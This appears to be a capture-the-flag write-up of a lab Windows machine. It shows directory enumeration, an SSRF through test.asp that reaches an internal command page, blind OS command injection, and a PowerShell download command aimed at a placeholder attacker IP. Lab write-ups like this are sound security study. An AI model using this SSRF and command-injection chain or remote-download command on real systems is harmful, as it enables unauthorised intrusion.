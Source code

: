 I was able to understand a bit of the Italian, but translated to English:

<pre>
In the middle of the walk of our life
I found myself in a dark forest,
because the straight way was lost.
</pre>

This text didn't tell me anything straight away, so saved it and kept digging for more.

Going to <code>http://10.10.10.57:62696/robots.txt</code>, I learned the directory /backend was disallowed. Going to <code>http://10.10.10.57:62696/backend/</code> only resulted in the HTML response "Instance not running".

To enumerate directories and files, I launched dirb:

<code>dirb http://10.10.10.57:62696 /usr/share/wordlists/dirb/common.txt</code>

Other than the /backend directory, nothing else stood out. I went ahead and this time used gobuster. This way I could increase the number of threads, so it could be faster. I also used a couple of Microsoft Web related extensions:

<code>gobuster -t 50 -u http://10.10.10.57:62696/ -w /usr/share/wordlists/dirb/common.txt -x .asp,.txt,.bak,.sql,.aspx,.mdb,.log,.reg</code>

This time, I got the file test.asp. After going to <code>http://10.10.10.57:62696/test.asp</code>, I get a response saying "Missing Parameter Url [u] in GET request!". At this time, I thought leveraging this to access any internal website. I went ahead and submitted the following request: <code>http://10.10.10.57:62696/test.asp?u=http://127.0.0.1</code>

I got a Site Administration webpage, with a couple of useless links, but with a useful one saying "system commands". This one linked to <code>http://127.0.0.1/cmd.aspx</code>. I then requested <code>http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx</code> and I got a textbox with label "Enter your shell command". There was no submit button, but by pressing enter, the form would be submitted by POST to the same URL cmd.aspx. Because I was running these requests through the test.asp proxy, I couldn't simply just submit the form on the browser, because it would submit it to <code>http://10.10.10.57:62696/cmd.aspx</code> and that wouldn't work. However, I just tried to submit a GET request and it worked! So submitting <code>http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=whoami</code>, would give me a response HTML webpage with Exit Status=0 on its body. This revealed the command was successful, but I was not receiving the output of it. I was facing a blind OS command injection scenario.

## Getting a Foothold

Since this was a Windows machine, my first thought was to run a Powershell command to download and execute a meterpreter shell. Just to test it, I launched a webserver (python -m SimpleHTTPServer) on my attacking box and ran the command <code>powershell -c (new-object System.Net.WebClient).DownloadFile('http://MY_ATTACKER_IP','test_file.txt')</code>. However, I didn't get a connection back to my webserver. I tried a few variants of the command, bypassing the restriction policy (-exec bypass), URL encoding and double encoding, but nothing worked. I was always getting the Exit Status=1, which meant the command failed. I then launched a tcpdump on my machine and ran the ping command through the URL <code>http://10.10.10.57:62696/test.asp?u=http://127.0.0.1/cmd.aspx?xcmd=ping -c 3 MY_ATTACKER_IP</code>. I got three ping requests on my tcpdump's output! This meant the machine was only allowing ping network traffic (ICMP Echo Requests and Replies) and it seems I was restricted to use a ICMP shell.
